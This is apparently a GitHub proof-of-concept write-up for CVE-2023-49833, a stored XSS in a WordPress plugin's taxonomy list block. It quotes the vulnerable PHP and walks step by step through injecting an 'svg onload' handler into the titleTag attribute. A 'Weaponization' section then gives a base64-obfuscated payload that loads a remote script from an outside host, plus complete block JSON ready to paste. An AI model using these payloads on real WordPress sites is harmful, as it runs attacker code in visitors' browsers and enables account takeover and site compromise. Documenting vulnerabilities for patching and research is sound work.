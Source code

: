 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49833/

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Vulnerability Technical Details

The titleTag is vulnerable to XSS in the Taxonomy List block, they did not properly filter it as an attribute, but rather html instead, we can append an entire attribute to the class node.

> Vulnerable Code - ./class-uagb-taxonomy-list.php
```php
<a class="uagb-tax-link" href= "<?php echo esc_url( $link ); ?>">
	<<?php echo esc_html( $titleTag ); ?> class="uagb-tax-title"><?php echo esc_html( $value->name ); ?>
	</<?php echo esc_html( $titleTag ); ?>>
	<?php if ( $showCount ) { ?>
			<?php echo esc_attr( $value->count ); ?>
			<?php $countName = ( $value->count > 1 ) ? esc_attr( $singular_name ) . 's' : esc_attr( $singular_name ); ?>
			<?php echo esc_attr( apply_filters( 'uagb_taxonomy_count_text', $countName, $value->count ) ); ?>
	<?php } ?>
</a>
```

Firstly, we will want to add a taxonomy list, make a new post, and add the taxonomy block.

![Screenshot1](img1.png)

![Screenshot2](img2.png)

Now click on code editor.

![Screenshot3](img3.png)

Append the titleTag to the end of taxonomy-list block. The following can be added to trigger XSS:

```
"titleTag":"svg onload=alert(1)"
```

![Screenshot4](img4.png)

Now save and publish the page, and then go ahead and view it.

![Screenshot5](img5.png)

### Weaponization

Below I will demonstrate how to load a remote script with this vulnerability.

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Payload
```
svg onload=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```

> Full Payload
```
{"overallBorderTopWidth":1,"overallBorderLeftWidth":1,"overallBorderRightWidth":1,"overallBorderBottomWidth":1,"overallBorderTopLeftRadius":3,"overallBorderTopRightRadius":3,"overallBorderBottomLeftRadius":3,"overallBorderBottomRightRadius":3,"overallBorderStyle":"solid","overallBorderColor":"#E0E0E0","overallBorderHColor":"#E0E0E0","block_id":"cfa0112c","titleTag":"svg onload=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))"}
```